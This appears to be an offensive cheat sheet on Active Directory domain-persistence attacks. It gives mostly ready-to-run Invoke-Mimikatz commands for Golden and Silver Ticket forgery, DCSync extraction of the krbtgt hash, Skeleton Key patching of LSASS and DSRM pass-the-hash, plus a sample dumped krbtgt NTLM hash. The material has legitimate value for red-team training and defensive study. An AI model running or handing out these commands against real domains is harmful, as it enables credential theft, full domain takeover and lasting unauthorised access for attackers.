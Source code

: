 **Golden Ticket:**


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
```Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>```

Once we get the hash of krbtgt account, we can generate our own TGT using:
```Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'```

> Found the following creds of krbtgt:
> RID  : 000001f6 (502)
> User : krbtgt
> LM   :
> NTLM : ff46a9d8bd66c6efd77603da26796f35

To see currently stored tickets:
``` klist```


**DCSync**


```Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'```
Example: ```Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'```



**Silver Ticket:**


Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

```Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'```


**Skeleton Key:**


Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

```Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>```

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.



**DSRM(Directory Service Restore Mode):**


When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin privs are required
```Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>```

After obtaining the DSRM hash:

```Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'```



